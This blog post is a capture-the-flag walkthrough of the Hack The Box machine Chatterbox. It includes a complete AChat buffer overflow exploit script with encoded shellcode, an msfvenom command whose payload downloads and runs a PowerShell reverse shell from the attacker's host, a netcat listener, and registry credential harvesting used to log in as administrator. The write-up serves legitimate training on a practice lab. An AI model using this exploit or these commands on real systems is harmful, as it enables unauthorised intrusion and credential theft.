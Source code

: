 ```yaml
---
layout: post
title: "HTB: Chatterbox Walkthrough"
---
```


<img src="{{ '/assets/images/chatterbox-icon.png' | relative_url }}" alt="Chatterbox Icon" />

# intro

The goal of this post is to provide an updated version of Hack The Box's machine, [Chatterbox](https://app.hackthebox.com/machines/123) (I am not sure if any one else has made a similar post but more than one doesn't hurt). 

There where a few trouble areas when doing this machine so my goal is to help anyone who may have ran into similar issues themsleves. I followed [0xdf's](https://0xdf.gitlab.io/2018/06/18/htb-chatterbox.html) walkthrough and there seems to be some dated steps that could be updated. I intend to correct these dated issues with this post.

Let's dive in! 

## reconnaissance

As usual with any CTF-type machine, we are going to start out with an **nmap** scan:

```bash
t3lesph0re@neptune:~$ nmap -p- 10.10.10.74

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-14 18:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.030s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 60.09 seconds
```

The **nmap** scan shows that there are two _non-default_ ports outside of the default top 1000 ports that are usually open, port `9255` and `9256`. 

### AChat on port 9256

There is a service called **AChat** running on port `9255` and `9256`. There is a known [buffer overflow](https://www.exploit-db.com/exploits/36025) that affects the version of AChat running on the target machine. This exploit is sent to port `9256 / UDP`. 

## initial exploit 

Because this is a windows host, we can use [Nishang's](https://github.com/samratashok/nishang) **Invoke-PowerShellTcp.ps1** script to get a shell. 

We will create a payload with **msfvenom** and deliver it via the Exploit-DB Python script to exploit the AChat vulnerability. Successful exploitation will run **Invoke-PowerShellTcp.ps1** and attempt to establish a reverse shell.

This is the **msfvenom** command to generate the shell code that we will use in the Python script (do not forget to add your Attacker IP / Port):

```bash
t3lesph0re@neptune:~$ msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell iex(new-object net.webclient).downloadstring('http://10.10.14.8/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 8082" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
```

This will save a **Python-formatted representation** of the generated payload to the file **shellcode**. When you output this file you will have your encoded shell that you will need to put into the Exploit-DB script (see below):

```python
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# REPLACE THIS w/ Shellcode 
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
buf += "\x30\x52\x7a\x6c\x74\x4b\x70\x52\x4e\x34\x64\x4b\x63"
buf += "\x42\x4f\x38\x4a\x6f\x38\x37\x6d\x7a\x4d\x56\x4d\x61"
buf += "\x49\x6f\x74\x6c\x4f\x4c\x6f\x71\x33\x4c\x69\x72\x4e"
buf += "\x4c\x4f\x30\x66\x61\x58\x4f\x5a\x6d\x59\x71\x67\x57"
buf += "\x68\x62\x48\x72\x52\x32\x50\x57\x54\x4b\x72\x32\x4e"
buf += "\x30\x64\x4b\x6e\x6a\x4d\x6c\x72\x6b\x70\x4c\x4a\x71"
buf += "\x43\x48\x39\x53\x71\x38\x6a\x61\x36\x71\x4f\x61\x62"
buf += "\x6b\x42\x39\x4f\x30\x4a\x61\x38\x53\x62\x6b\x30\x49"
buf += "\x6b\x68\x58\x63\x4e\x5a\x6e\x69\x44\x4b\x6f\x44\x72"
buf += "\x6b\x4b\x51\x36\x76\x70\x31\x69\x6f\x46\x4c\x57\x51"
buf += "\x48\x4f\x4c\x4d\x6a\x61\x55\x77\x4f\x48\x57\x70\x54"
buf += "\x35\x49\x66\x49\x73\x51\x6d\x7a\x58\x6d\x6b\x53\x4d"
buf += "\x4e\x44\x34\x35\x38\x64\x62\x38\x62\x6b\x52\x38\x6b"
buf += "\x74\x69\x71\x4a\x33\x33\x36\x54\x4b\x7a\x6c\x6e\x6b"
buf += "\x72\x6b\x51\x48\x6d\x4c\x6b\x51\x67\x63\x52\x6b\x49"
buf += "\x74\x72\x6b\x4d\x31\x7a\x30\x44\x49\x51\x34\x6e\x44"
buf += "\x4b\x74\x61\x4b\x51\x4b\x4f\x71\x51\x49\x71\x4a\x52"
buf += "\x31\x49\x6f\x69\x50\x31\x4f\x51\x4f\x6e\x7a\x34\x4b"
buf += "\x6a\x72\x38\x6b\x44\x4d\x71\x4d\x50\x6a\x59\x71\x64"
buf += "\x4d\x35\x35\x65\x62\x4b\x50\x49\x70\x4b\x50\x52\x30"
buf += "\x32\x48\x6c\x71\x64\x4b\x72\x4f\x51\x77\x59\x6f\x79"
buf += "\x45\x45\x6b\x48\x70\x75\x65\x35\x52\x30\x56\x72\x48"
buf += "\x33\x76\x35\x45\x37\x4d\x63\x6d\x49\x6f\x37\x65\x6d"
buf += "\x6c\x6a\x66\x31\x6c\x79\x7a\x51\x70\x4b\x4b\x67\x70"
buf += "\x53\x45\x6d\x35\x55\x6b\x31\x37\x4e\x33\x32\x52\x30"
buf += "\x6f\x42\x4a\x6d\x30\x50\x53\x79\x6f\x37\x65\x70\x63"
buf += "\x53\x31\x72\x4c\x30\x63\x4c\x6e\x70\x65\x32\x58\x50"
buf += "\x65\x6d\x30\x41\x41"
# REPLACE THIS w/ Shellcode ^

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256) # UPDATED IP POINTING TO TARGET

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40" 
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

Once you have updated this script (I downloaded it as it s defauly file name `36025`), we will need 3 seperate terminals: Python HTTP server, listener, and the exploit script. 

1. Start the HTTP python server:

<pre><code>  

```bash
t3lesph0re@neptune:~$ python3 -m http.server 80
```

</code></pre>


2. Start the listener:

```bash
t3lesph0re@neptune:~$ nc -lnvp 8082
```

3. Run the Python script:

Because the script shebang shows **#!/usr/bin/python**, we will use **Python2**:

```bash
t3lesph0re@neptune:~$ python2 36025
```

The Python script will run and you will see that the **Invoke-PowerShellTcp.ps1** was grabbed from the Python HTTP server (`10.10.10.74 - - [14/Oct/2025 19:09:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -`). Additionally, the script will output its `---->{P00F}!` and you will get your reverse shell for the user **chatterbox\alfred**. 

<figure>
  <img src="{{ '/assets/images/chatterbox-revshell.png' | relative_url }}" alt="Chatterbox Reverse Shell" />
  <figcaption>Reverse Shell as user Alfred</figcaption>
</figure>

## privilege escalation to admin

From here we can use our low level user shell to enumerate the _AutoLogon_ credentials:

```powershell
PS C:\> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
```

Here we can see that the _DefaultPassword_ **Welcome1!** is in plaintext. 

Using **winexe** we can login using this password for the user **administrator** to grab the final flag of the challenge! 

```bash
t3lesph0re@neptune:~$ winexe -U 'administrator%Welcome1!' //10.10.10.74 cmd.exe
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\administrator
```

I hope this was helpful!
 
# end 